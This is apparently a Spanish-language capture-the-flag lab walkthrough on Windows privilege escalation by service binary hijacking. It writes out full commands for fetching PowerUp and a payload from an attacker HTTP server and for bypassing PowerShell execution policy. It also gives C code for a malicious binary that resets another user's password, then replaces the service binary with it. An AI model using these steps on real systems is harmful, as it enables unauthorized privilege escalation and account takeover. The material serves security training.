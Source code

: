# Walk: Windows Privilege Escalation - Service Binary Hijacking - VM #2

## Fecha: 07/03/2025
## Host: Windows
## IP: 192.168.134.221
## Objetivo
Connect to _CLIENTWK221_ (VM #2) via RDP as user _milena_ with the password _MyBirthDayIsInJuly1!_. Find a service in which _milena_ can replace the service binary. Get an interactive shell as user running the service and find the flag on the desktop.
## Herramientas
1. runas
2. xfreerdp
3. PowerUp
## Procedimiento y comandos
#### Paso 1: Enumeracion servicios
1. Nos conectamos por _rdp_ : `xfreerdp /u:"milena" /p:"MyBirthDayIsInJuly1\!" /v:192.168.134.221 /dynamic-resolution +clipboard /cert:ignore`
2. Subimos PowerUp:
   - Servimos el archivo con python: `python3 -m http.server 80`
   - Solicitamos desde _milena_ : `iwr -uri http://192.168.45.177/PowerUp.ps1 -Outfile PowerUp.ps1`
3. Preparamos la ejecucion de PowerUp:
   - `powershell -ep bypass`
   - `. .\PowerUp.ps1`
  4. Ejecutamos para ver sevicios modificables:
      - `Get-ModifiableServiceFile`
```
ServiceName                     : BackupMonitor
Path                            : C:\BackupMonitor\BackupMonitor.exe
ModifiableFile                  : C:\BackupMonitor\BackupMonitor.exe
ModifiableFilePermissions       : {Delete, WriteAttributes, Synchronize, ReadControl...}
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : .\roy
AbuseFunction                   : Install-ServiceBinary -Name 'BackupMonitor'
CanRestart                      : True
Name                            : BackupMonitor
```
5. Corroboramos con `Get-CimInstance`  y `icacls`
```
 Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
Name                   State   Path
----                   -----   ----
Appinfo                Running C:\Windows\system32\svchost.exe -k netsvcs -p
AppXSvc                Running C:\Windows\system32\svchost.exe -k wsappx -p
AudioEndpointBuilder   Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
Audiosrv               Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
BackupMonitor          Running C:\BackupMonitor\BackupMonitor.exe
BFE                    Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
BITS                   Running C:\Windows\System32\svchost.exe -k netsvcs -p
BrokerInfrastructure   Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
etc...

PS C:\Users\milena> icacls "C:\BackupMonitor\BackupMonitor.exe"
C:\BackupMonitor\BackupMonitor.exe BUILTIN\Administrators:(I)(F)
                                   NT AUTHORITY\SYSTEM:(I)(F)
                                   BUILTIN\Users:(I)(RX)
                                   NT AUTHORITY\Authenticated Users:(I)(M)
```
> Y en efecto el binaro a remplazar que buscamos es **BackupMonitor.exe**
#### Paso 2: Reemplazamos el binario
1. Generamo un binario malicioso que cambie la contrasena del usuario en cueastion _roy_:
```
#include <stdlib.h>

int main ()
{
  system("net user roy password123!");
  return 0;
}
```
2. Compilamos: ` sudo x86_64-w64-mingw32-gcc changeUserPass.c -o changeUserPass.exe`
3. Servimos con python: `python3 -m http.server 80`
4. Solicitamos desde _milena_ el binario: ` iwr -uri http://192.168.45.177/changeUserPass.exe -Outfile changeUserPass.exe`
5. Generamos backup del archivo original y lo reemplazamos con el malicioso:
```
PS C:\Users\milena> move C:\BackupMonitor\BackupMonitor.exe BackupMonitor.exe
PS C:\Users\milena> move .\changeUserPass.exe C:\BackupMonitor\BackupMonitor.exe
```
#### Paso 3: Obtenemos el flag
1. necesitamos saber como ejecutar el servicio:
```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupMonitor'}

Name  StartMode
----  ---------
BackupMonitor Auto
```
> Al estar configurado en Auto, significa que si ejecuta de forma automatica al reiniciar el sistema
2. Forzamos el reinicio: `shutdown /r /t 0`
3. Iniciamos Sesion como roy: `runas /user:roy cmd` password: **_password123!_**
4. Obtenemos el flag en Desktop: `OS{cb021****************************f7da8}`
